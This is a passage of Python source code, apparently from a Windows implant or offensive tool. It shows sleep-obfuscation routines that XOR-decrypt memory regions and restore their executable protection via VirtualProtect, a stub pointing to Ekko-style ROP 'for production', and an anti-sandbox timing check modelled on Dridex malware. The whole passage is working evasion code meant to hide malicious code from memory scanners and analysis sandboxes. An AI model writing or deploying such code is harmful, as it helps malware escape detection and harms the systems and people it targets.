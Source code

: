 ```python
        """Decrypt memory region"""
        try:
            # Decrypt (XOR again)
            buffer = (ctypes.c_ubyte * region['size']).from_address(region['address'])
            for i in range(region['size']):
                buffer[i] ^= self.sleep_key[i % 32]
            
            # Restore original protection
            old_protect = wintypes.DWORD()
            self.kernel32.VirtualProtect(
                region['address'],
                region['size'],
                region.get('old_protect', 0x20),  # Default PAGE_EXECUTE_READ
                ctypes.byref(old_protect)
            )
            
        except:
            pass
    
    def _setup_decrypt_timer(self, milliseconds: int):
        """Set up timer to decrypt memory after sleep"""
        # Create timer APC callback
        # This is simplified - real implementation uses ROP chain
        # For production, implement full Ekko-style ROP
        pass
    
    def timing_verified_sleep(self, seconds: int) -> bool:
        """
        Sleep that verifies time actually passed (anti-sandbox)
        
        Research:
        - "Detecting Sandboxes" - Joe Security (2019)
        - Dridex malware time verification
        
        Returns:
            False if sandbox detected (time was skipped)
        """
        if not self.is_windows:
            import time
            time.sleep(seconds)
            return True
        
        try:
            # Get high-resolution performance counter
            freq = ctypes.c_longlong()
            start = ctypes.c_longlong()
            
            self.kernel32.QueryPerformanceFrequency(ctypes.byref(freq))
            self.kernel32.QueryPerformanceCounter(ctypes.byref(start))
            
            # Sleep (encrypted)
            self.masked_sleep(seconds * 1000)
            
            # Check time actually passed
            end = ctypes.c_longlong()
            self.kernel32.QueryPerformanceCounter(ctypes.byref(end))
            
            actual_seconds = (end.value - start.value) / freq.value
            
            # If time was skipped (sandbox), detect it
            if actual_seconds < seconds * 0.9:  # Allow 10% tolerance
                # Sandbox detected!
                return False
```